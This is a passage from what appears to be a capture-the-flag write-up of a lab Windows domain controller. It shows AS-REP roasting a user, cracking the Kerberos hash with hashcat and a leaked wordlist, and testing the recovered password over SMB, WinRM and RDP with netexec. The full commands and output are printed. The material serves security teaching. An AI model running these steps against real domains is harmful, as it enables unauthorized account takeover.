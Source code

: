L.Clark does!

`netexec` can dump a hash via AS-REP-Roasting as well. As Infiltrator is retiring, there is a dev version of Kerbrute has a version in dev that will automatically do the AS-REP-Roast when it finds a user with the DONT\_REQUIRE\_PREAUTH flag set.

#### Hashcat

I’ll save that hash to a file and pass it to `hashcat` with the `rockyou.txt` wordlist:

```

$ hashcat l.clark.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol
...[snip]...
$krb5asrep$23$l.clark@INFILTRATOR.HTB:55bacd8d8b7337e8481004cfa120d204$2c02190778c13465bd999c4c267031fc37039b14df8a486e01b569907eeb4ba8071ba38b6d9b3ac748e3a425bbb43b759f636e3ceb99cf4ba6fe02d81b8b9ee79b4766be2797a7a827666bd402913fe59fa6a9b8b5938000b612c4a08c874d3ef91b9df2445636104c6bd9c84236c01386de53e6f7e7cb261bfc98dced925a6f0831f1edeb6db1558e85c1ab7cb3364e421e8c9a114dce972e577feb92ce2e860f89c4280ab9c343c8bd52382545080141f68aba560b8d5dff3bed1138a8ffdcd7d90cc685292750d52017d0f69c5e766781099fd8c85cc91c186e70603162c77b334510ffad191a787fb58b81d0fc5bfef6:WAT?watismypass!
...[snip]...

```

The hash cracks in less than a second to “WAT?watismypass!”.

#### Validate Password

The password works for SMB:

```

oxdf@hacky$ netexec smb infiltrator.htb -u l.clark -p 'WAT?watismypass!'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 

```

It doesn’t work for WinRM, but `netexec` says it does for RDP:

```

oxdf@hacky$ netexec winrm infiltrator.htb -u l.clark -p 'WAT?watismypass!'
WINRM       10.10.11.31     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:infiltrator.htb)
WINRM       10.10.11.31     5985   DC01             [-] infiltrator.htb\l.clark:WAT?watismypass!
oxdf@hacky$ netexec rdp infiltrator.htb -u l.clark -p 'WAT?watismypass!'
RDP         10.10.11.31     3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:infiltrator.htb) (nla:True)
RDP         10.10.11.31     3389   DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 

```
